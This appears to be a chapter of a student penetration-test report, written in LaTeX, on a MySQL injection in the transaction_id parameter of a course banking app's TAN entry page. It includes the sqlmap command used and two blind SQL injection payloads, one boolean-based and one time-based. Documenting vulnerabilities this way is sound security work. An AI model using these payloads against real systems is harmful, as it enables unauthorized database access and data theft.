 

\chapter{MYSQL Injection}

\section{Observation}

We discovered that the request \textit{host-ip/sc-course/views/transactions/tan\_entry.php?transaction\_id=x} is vulnerable to MYSQL Injections.
The attacker has to be logged in as user in order to create a new transaction . After inserting an account number and an amount for the new transaction the above-named request is sent. The user now would have to insert the TAN. At this point the parameter "transaction\_id can be used for all kind mysql  injections.


Likelihood: high\newline

Impact:      	high\newline

Risk: high \newline

\section{Discovery}
This vulnerability was discovered by the tool sqlmap. The result of the first Test in Listing \ref{listing:first_test} shows that GET-Parameter is vulnerable.



\begin{lstlisting}[caption= First Test with result,label=listing:first_test]
sqlmap -u "host-ip/sc-course/views/transactions/tan\_entry.php?transaction\_id=14"

.....

GET parameter 'transaction_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection points with a total of 202 HTTP(s) requests:
---
Place: GET
Parameter: transaction_id
Type: boolean-based blind
Title: MySQL boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (RLIKE)
Payload: transaction_id=14' RLIKE (SELECT (CASE WHEN (6290=6290) THEN 14 ELSE 0x28 END)) AND 'umTL'='umTL

Type: AND/OR time-based blind
Title: MySQL < 5.0.12 AND time-based blind (heavy query)
Payload: transaction_id=14' AND 5296=BENCHMARK(5000000,MD5(0x46744978)) AND 'knKI'='knKI
---
\end{lstlisting}


